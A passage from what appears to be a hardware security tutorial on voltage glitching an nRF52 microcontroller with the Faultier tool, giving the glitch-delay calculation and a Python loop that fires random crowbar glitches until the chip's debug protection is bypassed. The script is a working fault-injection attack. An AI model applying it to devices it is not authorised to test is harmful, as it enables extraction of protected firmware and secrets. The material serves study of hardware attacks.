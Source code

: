 

The power drop is around 2500. 1 ADC measurement takes 96 CPU cycles. Hence we need to multiply: $2500 \times 96 = 240000$ cycles which will be our glitch delay.

## Performing the attack

**Glitching Strategy**

<img src="./resources/strategy.png">




```python
import faultier
import random

ft = faultier.Faultier()
ft.configure_glitcher(
    glitch_output = faultier.OUT_CROWBAR,
    power_cycle_output = faultier.OUT_MUX0,
    power_cycle_length = 300000
)
delay = 2500 # Measured delay
delay_start = (delay - 100) * 96
delay_end = (delay + 100) * 96

while True:
    d = random.randint(delay_start, delay_end)
    p = random.randint(40, 80)
    ft.glitch(delay = d, pulse = p)
    if(ft.nrf52_check()):
        print(f"Success {d} {p}")
        print("You can now connect to the chip using OpenOCD!")
        break
ft.device.close()
```

